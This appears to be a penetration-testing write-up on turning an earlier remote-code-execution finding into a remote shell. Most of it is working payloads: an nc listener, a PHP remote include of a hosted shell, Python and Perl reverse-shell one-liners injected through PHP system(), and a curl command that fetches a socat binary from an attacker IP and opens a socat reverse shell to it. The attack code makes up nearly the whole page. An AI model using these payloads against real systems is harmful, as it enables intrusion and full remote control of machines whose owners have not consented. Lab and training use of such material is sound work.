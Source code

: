 # Gaining remote shell

I explored methods to gain a remote shell on the machine. The following methods can be used (with the `VRFY` or `RCPT TO:` command with SMTP explored before) to run remote commands to establish the shell.&#x20;

The link below contains all the reverse shell payload we will be using:

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

For each of the methods, we need to start a TCP listener on a certain port to catch the shell:

{% code title="Start the TCP shell listener on a port" %}
```sh
$ nc -lvp <port>
```
{% endcode %}

#### 1. PHP shell

a. Download the PHP shell from the link above, and load the content into a file such as `shell.php`  (remember to update the host and port values):

* Start a web server from the same directory as the shell

{% code title="Python3 web server" overflow="wrap" %}
```sh
$ python3 -m http.server <port>
```
{% endcode %}

b. Include the address of the web server to load the PHP shell (using RCE we have found earlier):

```php
<?php include('http://<host>:<port>/shell.php'); ?>
```

#### 2. Python shell

a. Identify if Python is available

```php
<?php system('python --version'); ?>
```

b. If available, we can invoke a Python reverse shell:

* Replace the `<host>` and `<port>` with the appropriate values

{% code overflow="wrap" %}
```php
<?php system("python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<host>',<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\""); ?>
```
{% endcode %}

#### 3. Perl shell

a.  Identify if Perl is available:

```php
<?php system('perl --version'); ?> 
```

b. If available, we can invoke a Perl shell:

* Replace the `<host>` and `<port>` with the appropriate values

{% code overflow="wrap" %}
```php
<?php system('perl -e \'use Socket;$i="<host>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''); ?
```
{% endcode %}

#### 4. Socat stable shell

a. Check if Socat is available. However, chances are that it will not be available. We can install the Socat binary and host it from a web server on our machine, and have the target retrieve it.

First, download the Socat binary and host it from the local machine:

{% code overflow="wrap" %}
```sh
$ https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true 

$ python3 -m http.server <port>
```
{% endcode %}

Next, we can send the payload to the target:

{% code overflow="wrap" %}
```php
<?php system('curl http://10.4.10.179:8000/socat --output /tmp/socat && chmod +x /tmp/socat &&  /tmp/socat TCP:10.4.10.179:8002 EXEC:"bash -li",pty,stderr,sigint,setsid,sane'); ?>
```
{% endcode %}

In this payload, a few things are happening:

1. Retrieve the Socat binary and save it to a temporary directory `/tmp/socat`
2. Add execute permission on the binary
3. Invoke a Socat reverse shell from the target to our machine

* Note that this shell is considered to be more stable as compared to the other options discussed before
